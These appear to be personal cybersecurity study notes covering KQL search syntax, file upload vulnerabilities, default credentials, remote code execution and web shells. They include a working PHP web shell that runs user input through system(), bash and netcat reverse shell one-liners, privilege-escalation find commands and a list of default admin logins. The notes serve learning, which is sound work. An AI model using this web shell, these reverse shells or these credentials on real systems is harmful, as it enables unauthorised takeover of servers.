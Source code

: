**KQL Notes**

| **Query/Syntax** | **Description** | **Example** |
| --- | --- | --- |
| “  “ | Used to search for specific values within the documentations. Used for **exact** searches | “TryHackMe” |
| *  | Denotes a wildcard, which searches documents for similar matches to the value provided | United* (return United Kingdom and United States) |
| OR | Show documents that contain either of the values provided | “United Kingdom” OR “England” |
| AND | Show documents that contain **both** values | “Ben” AND “25” |
| : | To search (specified) field of a document for a value, such as IP address. Note that the field provided here will depend on the fields available in the index pattern | ip.address: 10.10.10.10 |

**File uploads**

File uploads are everywhere on websites, eg profile pictures, invoices, receipts etc. These features make user experience smoother and more efficient but also creates a risk if not properly secured. It can open up various vulnerabilities that attackers can exploit.

**File upload Vulnerabilities**

If a website does not check what kind of file is being uploaded, how big it is or what it contains, it opens the door to all sorts of attacks. For example:

- **RCE** (Remote Code Execution): Uploading a script that the server runs, which gives attacker control over it
- **XSS** (Cross Site Scripting): Uploading an HTML file that contains an XSS code which will steal a cookie and send it back to the attacker’s server

**Unrestricted file uploads**

Unrestricted file uploads can be particularly dangerous because they allow an attacker to upload any type of file. If the file’s contents aren’t properly validated to ensure only specific formats like PNG or JPG are accepted, an attacker could upload a malicious script such as PHP file or an executable that the server might process and run. This can lead to code execution on the server, allowing attackers to take over the system

- Upload a script that server executes, leading to RCE
- Upload a crafted image file that triggers a vulnerability when processed by the server
- Uploading a web shell and browsing to it directly using a browser

**Usage of weak credentials**

Default credentials are often found in systems where administrators fail to change initial login details provided during setup. Attackers can use tools or try common credentials manually to break into the system.

| **Username** | **Password** |
| --- | --- |
| admin | admin |
| administrator | administrator |
| admin@domainname | admin |
| guest | guest |

**RCE (Remote Code Execution)**

RCE happens when an attacker finds a way to run their own code on a system. This is a highly dangerous vulnerability because it can allow the attacker to take control of the system, exfiltrate sensitive data, or compromise other connected systems.

**Web Shell**

Web Shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once in place, attackers can run commands, manipulate files and use the compromised server as their own. They can even use it to launch attacks on other systems

- Execute commands on the server
- Move laterally within the network
- Download sensitive data or pivot to other services

A web shell typically gives the attacker a web-based interface to run commands. In some cases, attackers may use a reverse shell to establish a direct connection back to their system, allowing them to control the compromised machine remotely. Once an attacker has this level of access, they might attempt privilege escalation to gain even more control, such as achieving root access or moving deeper into the network.

```html
<html><body><form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>"><input type="text" name="command" autofocus id="command" size="50"><input type="submit" value="Execute"></form><pre><?php
    if(isset($_GET['command']))
    {
        system($_GET['command'] . ' 2>&1');
    }
?>
</pre></body></html>
```

PHP file. When accessed, displays an input field. Whatever is entered in this input field is then run against the underlying operating system using `system()` PHP function, and output is displayed to the user. 

Once vulnerability has been exploited and now have access to the operating system via a web shell, depending on a) what your goal is and b) what misconfigurations are present on the system, will determine exactly what we can do.

**Linux Commands** 

| **Command** | **Use** |
| --- | --- |
| ls | Will give you an idea of what files/directories surround you |
| cat | A command used to output the contents of documents such as text files |
| pwd | Will give you an idea of where in the system you are |
| whoami | Will let you know who you are in the system |
| hostname | The system name and potentially its role in the network |
| uname -a | Will give you some system information like the OS, kernel version, and more |
| id | If the current user is assigned to any groups |
| ifconfig | Allows you to understand the system's network setup |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1 | A command used to begin a reverse shell via bash |
| nc -e /bin/sh <your-ip> <port> | A command used to begin a reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| find / -writable -type  f 2>/dev/null | grep -v "/proc/" | Also helpful in privilege escalation attempts used to find files with writable permissions |

